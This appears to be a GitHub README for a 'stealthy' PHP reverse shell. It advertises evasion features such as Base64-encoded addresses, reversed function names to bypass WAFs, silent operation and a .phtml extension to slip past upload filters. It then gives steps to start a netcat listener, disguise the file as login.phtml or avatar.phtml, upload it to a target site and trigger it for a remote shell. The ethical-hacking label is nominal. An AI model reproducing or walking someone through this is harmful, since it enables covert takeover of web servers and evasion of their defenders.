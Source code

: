 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably without showing any output.

## Features
- IP and shell command are Base64 encoded for stealth and easy customization

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like Cloudflared, Ngrok, Serveo, and others

- Upload with `.phtml` extension to bypass some filters

  ## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**
Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
**Copy the output and replace the $ip_b64 value in the PHP script.**

**3. Update the PHP script**  
Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload
Rename the file to something less suspicious, for example:**

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

  Using the `.phtml` extension helps the file run on some servers that block `.php`.

 Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.
